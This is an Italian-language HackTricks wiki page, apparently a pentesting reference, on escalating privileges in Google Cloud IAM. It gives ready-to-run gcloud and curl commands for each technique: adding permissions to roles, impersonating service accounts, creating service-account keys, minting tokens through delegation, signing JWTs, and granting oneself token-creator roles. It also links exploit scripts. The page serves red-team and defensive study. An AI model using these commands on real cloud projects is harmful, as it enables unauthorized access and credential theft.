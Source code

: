 # GCP - IAM Privesc

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## IAM

Trova maggiori informazioni su IAM in:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

Un attaccante con i permessi menzionati sarà in grado di aggiornare un ruolo assegnato a te e darti permessi extra ad altre risorse come:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Puoi trovare uno script per automatizzare la **creazione, sfruttamento e pulizia di un ambiente vulnerabile qui** e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). Per maggiori informazioni consulta la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Un attaccante con i permessi menzionati sarà in grado di **richiedere un token di accesso che appartiene a un Service Account**, quindi è possibile richiedere un token di accesso di un Service Account con più privilegi del nostro.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). Per maggiori informazioni consulta la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

Un attaccante con i permessi menzionati sarà in grado di **creare una chiave gestita dall'utente per un Service Account**, il che ci permetterà di accedere a GCP come quel Service Account.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py). Per maggiori informazioni consulta la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Nota che **`iam.serviceAccountKeys.update` non funzionerà per modificare la chiave** di un SA perché per farlo è necessario anche il permesso `iam.serviceAccountKeys.create`.

### `iam.serviceAccounts.implicitDelegation`

Se hai il permesso **`iam.serviceAccounts.implicitDelegation`** su un Service Account che ha il permesso **`iam.serviceAccounts.getAccessToken`** su un terzo Service Account, allora puoi usare implicitDelegation per **creare un token per quel terzo Service Account**. Ecco un diagramma per aiutare a spiegare.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Nota che secondo la [**documentazione**](https://cloud.google.com/iam/docs/understanding-service-accounts), la delegazione di `gcloud` funziona solo per generare un token usando il metodo [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken). Quindi ecco come ottenere un token usando direttamente l'API:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). Per maggiori informazioni consulta la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

Un attaccante con i permessi menzionati sarà in grado di **firmare payload arbitrari in GCP**. Sarà quindi possibile **creare un JWT non firmato del SA e poi inviarlo come blob per ottenere il JWT firmato** dal SA che stiamo prendendo di mira. Per maggiori informazioni [**leggi questo**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) e [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). Per maggiori informazioni consulta la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

Un attaccante con i permessi menzionati sarà in grado di **firmare JSON web token (JWT) ben formati**. La differenza con il metodo precedente è che **invece di far firmare a Google un blob contenente un JWT, utilizziamo il metodo signJWT che si aspetta già un JWT**. Questo lo rende più facile da usare ma puoi firmare solo JWT invece di qualsiasi byte.

Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). Per maggiori informazioni consulta la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

Un attaccante con i permessi menzionati sarà in grado di **aggiungere politiche IAM agli account di servizio**. Puoi abusarne per **concederti** i permessi necessari per impersonare l'account di servizio. Nel seguente esempio ci stiamo concedendo il ruolo `roles/iam.serviceAccountTokenCreator` sul SA interessante:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

Il **permesso iam.serviceAccounts.actAs** è simile al **permesso iam:PassRole di AWS**. È essenziale per eseguire compiti, come avviare un'istanza Compute Engine, poiché concede la capacità di "actAs" un Service Account, garantendo una gestione sicura dei permessi. Senza questo, gli utenti potrebbero ottenere accessi indebiti. Inoltre, sfruttare il **iam.serviceAccounts.actAs** implica vari metodi, ciascuno richiedendo un set di permessi, a differenza di altri metodi che ne richiedono solo uno.

#### Impersonazione di un service account <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Impersonare un service account può essere molto utile per **ottenere nuovi e migliori privilegi**. Ci sono tre modi in cui puoi [impersonare un altro service account](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating\_a\_service\_account):

* Autenticazione **usando chiavi private RSA** (coperto sopra)
* Autorizzazione **usando politiche Cloud IAM** (coperto qui)
* **Distribuzione di lavori su servizi GCP** (più applicabile al compromesso di un account utente)

### `iam.serviceAccounts.getOpenIdToken`

Un attaccante con i permessi menzionati sarà in grado di generare un OpenID JWT. Questi sono usati per affermare l'identità e non necessariamente portano alcuna autorizzazione implicita contro una risorsa.

Secondo questo [**post interessante**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b), è necessario indicare l'audience (servizio dove si vuole usare il token per autenticarsi) e si riceverà un JWT firmato da google che indica il service account e l'audience del JWT.

Puoi generare un OpenIDToken (se hai l'accesso) con:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
```markdown
Poi puoi semplicemente usarlo per accedere al servizio con:
```
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Alcuni servizi che supportano l'autenticazione tramite questo tipo di token sono:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (se si utilizza Google OIDC)

Puoi trovare un esempio su come creare un token OpenID per conto di un service account [**qui**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## Riferimenti

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repo di github.

</details>
{% endhint %}
